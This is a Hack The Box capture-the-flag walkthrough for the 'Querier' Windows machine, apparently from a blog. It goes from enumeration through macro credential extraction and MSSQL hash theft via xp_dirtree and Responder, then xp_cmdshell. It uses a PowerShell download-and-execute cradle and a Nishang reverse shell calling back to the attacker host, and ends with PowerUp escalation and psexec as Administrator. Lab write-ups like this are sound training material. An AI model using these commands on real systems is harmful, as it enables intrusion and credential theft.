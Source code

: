 ```yaml
---
title: "Querier"
date: 2024-06-17
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "querier", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Querier

# Querier

# Credentials
| Username   | Password         | Hash | Source            |
| ---------- | ---------------- | ---- | ----------------- |
| Reporting  | PcwTWTHRwryjc$c6 |      | SMB               |
| Luis       |                  |      | docProps/core.xml |
| msssql-svc | corporate568     |      | sql-responder     |

# Enumeration
## Nmap
# TCP
```sh
PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763

| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# UDP
```sh
PORT      STATE         SERVICE      VERSION
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    closed        dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   closed        msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown
```

## SMB
![screenshot](/assets/images/querier1.png)

![screenshot](/assets/images/querier2.png)
![screenshot](/assets/images/querier3.png)
## Currency Volume Report.xlsm 
Unzip the file 

```sh
unzip 'Currency Volume Report.xlsm'
```

![screenshot](/assets/images/querier4.png)

Macros are usually stored at `xl/vbaProject.bin`. Use strings on it to find all readable strings.

```sh
strings x1/vbaProject.bin
```

![screenshot](/assets/images/querier5.png)

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

# SQL

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

```sh
impacket-mssqlclient reporting@10.10.10.125 -windows-auth
```

![screenshot](/assets/images/querier6.png)

We don't have SA privileges. Though we can't execute commands using `xp_cmdshell` we can steal hashes of the SQL service account by using `xp_dirtree` or `xp_fileexist`.

```sql
exec xp_dirtree '\\10.10.14.42\share\file'
```

and fire up Responder locally.
```sh
sudo responder -I tun0
```


![screenshot](/assets/images/querier7.png)

# Cracking the hash
![screenshot](/assets/images/querier8.png)

# Foothold
using the creds `mssql-svc : corporate568` we can now login to MSSQL. Let's check if we have SA permissions now.
```sh
impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
```

![screenshot](/assets/images/querier9.png)

enable `xp_cmdshell`
```sql
enable_xp_cmdshell
xp_cmdshell whoami
```

![screenshot](/assets/images/querier10.png)

Now we can execute a TCP reverse shell from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script and add this line to the end of it. 

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.42 -Port 4444
```

![screenshot](/assets/images/querier11.png)

Run a simple HTTP server and execute it using powershell.
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.42/Invoke-PowerShellTcp.ps1\')
```

![screenshot](/assets/images/querier12.png)

# Privilege Escalation
After getting a shell [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1) is used to enumerate further. Download the script and execute it on the server uinsg `Invoke-AllChecks`

```powershell
wget https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1
echo Invoke-AllChecks >> PowerUp.ps1

python3 -m http.server 80
iex(new-object.net.webclient).downloadstring("http://10.10.14.42/PowerUp.ps1")
```

![screenshot](/assets/images/querier13.png)![screenshot](/assets/images/querier14.png)

Login as admin
```sh
impacket-psexec Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
```

![screenshot](/assets/images/querier15.png)
